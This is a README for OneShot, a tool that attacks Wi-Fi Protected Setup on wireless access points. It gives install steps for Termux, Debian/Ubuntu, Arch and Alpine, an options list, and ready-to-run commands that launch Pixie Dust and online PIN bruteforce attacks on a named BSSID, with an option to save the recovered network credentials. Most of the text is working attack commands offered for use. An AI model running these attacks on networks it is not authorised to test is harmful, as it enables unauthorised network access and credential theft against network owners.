 ## [Termux](https://termux.com/)
Please note that root access is required.  

## Installation Steps

**Requirements**
 ```
 pkg install -y root-repo
 ```
 ```
 pkg install -y git tsu python wpa-supplicant pixiewps iw openssl
 ```
**Download DoubleShot**
 ```
 git clone --depth 1 https://github.com/tanvir-projects-archive/OneShot OneShot
 ```
#### Running Command
 ```
 sudo python OneShot/oneshot.py -i wlan0 --iface-down -K
 ```


## For Linux Distribution 🐧

## Debian/Ubuntu
 ```
 sudo apt install -y python3 wpasupplicant iw wget
 ```
**Installing Pixiewps**

***Ubuntu 18.04 and above or Debian 10 and above***
 ```
 sudo apt install -y pixiewps
 ```
 
***Other versions***
 ```
 sudo apt install -y build-essential unzip
 wget https://github.com/wiire-a/pixiewps/archive/master.zip && unzip master.zip
 cd pixiewps*/
 make
 sudo make install
 ```
**Getting OneShot**
 ```
 cd ~
 wget https://raw.githubusercontent.com/tanvir-projects-archive/OneShot/master/oneshot.py
 ```
Optional: getting a list of vulnerable to pixie dust devices for highlighting in scan results:
 ```
 wget https://raw.githubusercontent.com/tanvir-projects-archive/OneShot/master/vulnwsc.txt
 ```
 

## Arch Linux
 ```
 sudo pacman -S wpa_supplicant pixiewps wget python
 ```
**Getting OneShot**
 ```
 wget https://raw.githubusercontent.com/tanvir-projects-archive/OneShot/master/oneshot.py
 ```
Optional: getting a list of vulnerable to pixie dust devices for highlighting in scan results:
 ```
 wget https://raw.githubusercontent.com/tanvir-projects-archive/OneShot/master/vulnwsc.txt
 ```

 
## Alpine Linux
It can also be used to run on Android devices using: [Linux Deploy](https://play.google.com/store/apps/details?id=ru.meefik.linuxdeploy)

**Installing requirements**
Adding the testing repository:
 ```
 sudo sh -c 'echo "http://dl-cdn.alpinelinux.org/alpine/edge/testing/" >> /etc/apk/repositories'
 ```
 ```
 sudo apk add python3 wpa_supplicant pixiewps iw
 ```
 **Getting OneShot**
 ```
 sudo wget https://raw.githubusercontent.com/tanvir-projects-archive/OneShot/master/oneshot.py
 ```
Optional: getting a list of vulnerable to pixie dust devices for highlighting in scan results:
 ```
 sudo wget https://raw.githubusercontent.com/tanvir-projects-archive/OneShot/master/vulnwsc.txt
 ```


# Usage
```
 oneshot.py <arguments>
 Required arguments:
     -i, --interface=<wlan0>  : Name of the interface to use

 Optional arguments:
     -b, --bssid=<mac>        : BSSID of the target AP
     -p, --pin=<wps pin>      : Use the specified pin (arbitrary string or 4/8 digit pin)
     -K, --pixie-dust         : Run Pixie Dust attack
     -B, --bruteforce         : Run online bruteforce attack
     --push-button-connect    : Run WPS push button connection

 Advanced arguments:
     -d, --delay=<n>          : Set the delay between pin attempts [0]
     -w, --write              : Write AP credentials to the file on success
     -F, --pixie-force        : Run Pixiewps with --force option (bruteforce full range)
     -X, --show-pixie-cmd     : Alway print Pixiewps command
     --vuln-list=<filename>   : Use custom file with vulnerable devices list ['vulnwsc.txt']
     --iface-down             : Down network interface when the work is finished
     -l, --loop               : Run in a loop
     -r, --reverse-scan       : Reverse order of networks in the list of networks. Useful on small displays
     --mtk-wifi               : Activate MediaTek Wi-Fi interface driver on startup and deactivate it on exit
                                (for internal Wi-Fi adapters implemented in MediaTek SoCs). Turn off Wi-Fi in the system settings before using this.
     -v, --verbose            : Verbose output
 ```

## Usage examples
Start Pixie Dust attack on a specified BSSID:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -K
 ```
Show avaliable networks and start Pixie Dust attack on a specified network:
 ```
 sudo python3 oneshot.py -i wlan0 -K
 ```
Launch online WPS bruteforce with the specified first half of the PIN:
 ```
 sudo python3 oneshot.py -i wlan0 -b 00:90:4C:C1:AC:21 -B -p 1234
 ```
 Start WPS push button connection:s
 ```
 sudo python3 oneshot.py -i wlan0 --pbc
 ```
## Troubleshooting
#### "RTNETLINK answers: Operation not possible due to RF-kill"
 Just run:
```sudo rfkill unblock wifi```
#### "Device or resource busy (-16)"
 Try disabling Wi-Fi in the system settings and kill the Network manager. Alternatively, you can try running OneShot with ```--iface-down``` argument.
#### The wlan0 interface disappears when Wi-Fi is disabled on Android devices with MediaTek SoC
 Try running OneShot with the `--mtk-wifi` flag to initialize Wi-Fi device driver.

# Credits 
* `rofl0r` for initial implementation;
* `Monohrom` for testing, help in catching bugs, some ideas;
* `Wiire` for developing Pixiewps.
